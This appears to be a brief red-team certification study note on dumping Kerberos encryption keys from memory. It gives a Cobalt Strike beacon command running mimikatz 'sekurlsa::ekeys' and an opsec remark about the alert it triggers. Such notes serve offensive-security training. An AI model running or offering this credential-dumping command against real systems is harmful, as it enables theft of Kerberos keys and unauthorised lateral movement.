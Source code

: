 
These keys can be used in a variety of Kerberos abuse scenarios.
Command:

`beacon> mimikatz !sekurlsa::ekeys`

### ⚠ Opsec

This command generates an alert opening a handle in the security registry hive.
### Properties
---
📆 created   {{11-02-2024}} 11:52
🏷️ tags: #redteam #crto 

---


